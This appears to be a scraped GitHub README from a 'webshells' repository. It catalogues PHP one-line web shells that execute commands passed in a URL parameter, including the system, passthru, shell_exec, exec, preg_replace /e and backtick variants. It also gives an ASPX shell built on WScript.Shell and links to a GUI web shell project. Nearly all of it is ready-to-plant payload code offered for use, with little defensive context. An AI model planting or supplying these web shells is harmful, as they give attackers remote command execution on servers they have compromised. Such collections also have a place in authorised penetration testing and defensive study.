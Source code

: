 # PHP Webshells

- https://github.com/cspshivam/webshells

#### Execute one command

`<?php system("whoami"); ?>`

#### Take input from the url paramter. shell.php?cmd=whoami


`<?php system($_GET['cmd']); ?>`

#### The same but using passthru

[](https://github.com/cspshivam/webshells#the-same-but-using-passthru)

`<?php passthru($_GET['cmd']); ?>`

#### For shell_exec to output the result you need to echo it

[](https://github.com/cspshivam/webshells#for-shell_exec-to-output-the-result-you-need-to-echo-it)

`<?php echo shell_exec("whoami");?>`

#### Exec() does not output the result without echo, and only output the last line. So not very useful!

[](https://github.com/cspshivam/webshells#exec-does-not-output-the-result-without-echo-and-only-output-the-last-line-so-not-very-useful)

`<?php echo exec("whoami");?>`

#### Instead to this if you can. It will return the output as an array, and then print it all.

[](https://github.com/cspshivam/webshells#instead-to-this-if-you-can-it-will-return-the-output-as-an-array-and-then-print-it-all)

`<?php exec("ls -la",$array); print_r($array); ?>`

#### preg_replace(). This is a cool trick

[](https://github.com/cspshivam/webshells#preg_replace-this-is-a-cool-trick)

`<?php preg_replace('/.*/e', 'system("whoami");', ''); ?>`

#### Using backticks

[](https://github.com/cspshivam/webshells#using-backticks)

``<?php $output = `whoami`; echo "<pre>$output</pre>"; ?>``

#### Using backticks

[](https://github.com/cspshivam/webshells#using-backticks-1)

``<?php echo `whoami`; ?>``

#### Web shell with GUI

[](https://github.com/cspshivam/webshells#web-shell-with-gui)

Try Sweetuu : `github.com/cspshivam/sweetuu`

# ASPX Webshell

[](https://github.com/cspshivam/webshells#aspx-webshell)

#### Execute Command

[](https://github.com/cspshivam/webshells#execute-command)

```
<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c whoami")
o = cmd.StdOut.Readall()
Response.write(o)
%>
```

This shell can be binded with `web.config` file